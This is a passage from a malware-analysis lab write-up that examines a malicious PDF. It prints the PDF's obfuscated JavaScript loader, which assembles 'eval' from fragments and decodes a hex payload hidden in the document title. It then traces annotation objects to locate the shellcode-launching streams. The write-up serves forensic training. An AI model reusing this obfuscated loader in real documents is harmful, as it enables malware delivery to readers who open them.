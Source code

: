 ```javascript
var SSS=null;var SS="ev";var $S="";$5="in";app.doc.syncAnnotScan();S$="ti";if(app.plugIns.length!=0){var $$=0;S$+="tl";$5+="fo";____SSS=app.doc.getAnnots({nPage:0});S$+="e";$S=this.info.title;}var S5="";if(app.plugIns.length>3){SS+="a";var arr=$S.split(/U_155bf62c9aU_7917ab39/);for(var $=1;$<arr.length;$++){S5+=String.fromCharCode("0x"+arr[$]);}SS+="l";}if(app.plugIns.length>=2){app[SS](S5);}
```

<details><summary>Click to reveal the answer</summary></details>


## Q8: Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

This one requires more investigation, I will start by looking at the JS code.
We can see that there its scanning the annotations and also obtaining something from there, also I noticed a split of a curious string: 
```javascript
arr=$S.split(/U_155bf62c9aU_7917ab39/)
```

having that we can take a look at the annotations and also keep in mind this string in case we find it.

In **Object 3** we can find this related to the annotations:
```
/Type /Page /MediaBox [ 0 0 612 792 ] /Annots [ 6 0 R 8 0 R ] /Parent 2 0 R
```
Its pointing at **object 6** and **object 8**, so we can take a look at them.
**Object 6** contains:
```
/Type /Annot /Subtype /Text /Name /Comment /Rect [ 200 250 300 320 ] /Subj 7 0 R
```
Which is pointing to **object 7**, so lets take a look at it. 
**Object 7** contains a long string, but doesn't seem related to the one in the JS code, but still its interesting to keep in mind, lets look at **object 8**.
**object 8** contains:
```
/Type /Annot /Subtype /Text /Name /Comment /Rect [100 180 300 210 ] /Subj 9 0 R
```
Its pointing at **object 9**.
And **object 9** also contains a long string, but different from **object 7**, its interesting to keep in mind but still doesnt match the one in the JS code. So I dont see someting interesting from here. 
Lets take a look at other objects, checking **object 10** we can find the matching string of the JS code.
Great, now that we have the object use to split that string we can do it, I will use CyberChef. First I will remove the string `U_155bf62c9aU_7917ab39` doing a replace to nothing, and then I will check the resultant string in CyberChef.
One thing I like about CyberChef is the magic wand, so the output removing that string turns out to be in hexdecimal, now we can decode it from hex in Cyberchef:

![question8](/images/getpdf-lab/q8.png)
